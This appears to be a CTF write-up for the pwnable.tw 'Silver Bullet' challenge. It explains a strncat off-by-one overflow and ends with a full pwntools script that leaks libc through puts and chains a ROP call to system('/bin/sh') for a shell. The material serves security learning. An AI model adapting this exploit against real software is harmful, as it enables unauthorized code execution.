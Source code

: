 ```yaml
---
title: Bullet
date: 2018-03-29 22:23:06
draft: false
---
```



注意`stack`或是`struct`的`layout`

漏洞`strncat(bullet->desc,buf,MAX - bullet->power)`; 
这样首先`create`长度为47的`bullet`，通过`power_up` 再增加一个`power` 此时bullet长度为48
通过`strnact` 最后还会赋值 `null` ,因此造成溢出,`power`會從`\x2f`蓋成`\x00`  
又因为 `power = strlen(power) + power` 所以最后`power`为1
杀死`gin`才会触发`return`;

再次`powerup`的时候,由于`len`和`char`间没有`\0`,`strncat`会连接到`len`的后面,从而改写`len`并`rop`.
注意`payload` 中不能有`null` 
由於程式本身有`NX`保护，必須使用ROP控制程式行為 但許多address因包含null byte，這些address無法被strncat複製到buffer上，因此覆寫main frame的return address時最多只能使用ROP執行某些gadgets。


再做一次 power_up() 就可以修改掉 power 的值並 overflow 到 main() 的 return address

最後把 power 改超大殺死 Werewolf 就可以触发 return ，而我们通过溢出修改 return 处的栈帧达到我们的目的
首先要泄露libc 的基址，从而得到system和 bin/sh 的地址，这里借用puts 函数
然后再触发system 函数 所以需要利用两次漏洞，第一次漏洞利用时返回地址应该是 main 。


内置的ROP怎么用
怎么查看 main的 return address是在overflow之後7個bytes 呢？？？看了半天 使用pattern search 可以算出offset 
终于可以写payload了
但是我输入了\xff\xff\xff 为什么就是打不败呢？？

这是别人的步骤：
step1：创建银弹，长度47
step2：补充银弹，长度1
step3：补充银弹，长度47
 |\xff * 3| + | junk(四字节)| + | put_addr | + | main_addr | + | got表中存储read的位置|
step4：调用beat，打败werewolf
step5：函数返回，调用puts，获得read()函数地址，并据此计算出libc基址，以及system、binsh地址等
step6：函数再次执行main，重复step1、step2
step7：补充银弹，长度47
`|\xff * 3| + | junk（四字节）| + | system_addr | + |junk（四字节）| + |bin_sh_addr|`
 
\xff 写成 xff 获取read地址的时候处理得也不对
最后一个beat 一直报错？ 干脆直接进入交互模式 在beat好了 
各种乱七八糟的终于成功getshell了 但是直接就EOF 执行不下去了 重新执行一遍 又好了 感觉本地不行到服务器上又可以了，然后服务器有时候还连不上或者程序一开始就运行错 这样子我都会怀疑是不是自己写错了555
不过最后终于成功了 开心开心

最终payload
``` python
from pwn import *
elf = ELF('./silver_bullet')
# sh = process('silver_bullet')
sh = remote('chall.pwnable.tw', 10103)
libc = ELF('./libc_32.so.6')

def create(content):
    sh.sendline('1')
    sh.sendlineafter(":",content)
    sh.recvuntil('Your choice :')
    

def powerup(content):
    sh.sendline('2')
    sh.sendlineafter(":",content)
    sh.recvuntil('Your choice :')

def  beat():
    sh.sendline('3')
    # sh.recvuntil('!')
    return  sh.recvuntil('Your choice :')

sh.recvuntil('Your choice :')
payload = '\xff'*3+'aaaa'+p32(elf.symbols['puts'])+p32(elf.symbols['main'])+p32(elf.got['read'])
create('a'*47)
powerup('a')
powerup(payload)
tmp = beat()
data = tmp.split('\n')[6]
read_addr = u32(data[0:4])  #这里的处理是参考别人的 
# read_addr = u32(sh.recv()[:4]) 
print  read_addr
read_libc= libc.symbols['read']
libc_base = read_addr-read_libc
sys_addr = libc.symbols['system']+libc_base
bin_addr = next(libc.search('/bin/sh\x00'))+libc_base
create('a'*47)
powerup('a')
payload = '\xff'*3+'aaaa'+p32(sys_addr)+p32(0xdeafbeef)+p32(bin_addr)
powerup(payload)
# beat()
sh.interactive()
# sh.recvuntil('Oh ! You win !!')
```

data = tmp.split('\n')[6] 是按照这样子输出的：
    
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 2147483647
>--------------------------------<
Try to beat it .....
Oh ! You win !!
xxx 地址
menu 

因此地址在第七行T
参考：
http://veritas501.space/2018/02/21/pwnable.tw%201~10%E9%A2%98%20writeup/
http://look3little.blogspot.sg/2017/03/silverbullet-200.html (十分详细)
http://blog.c0smic.cn/2017/12/10/pwnable_tw_4_6/ 详细

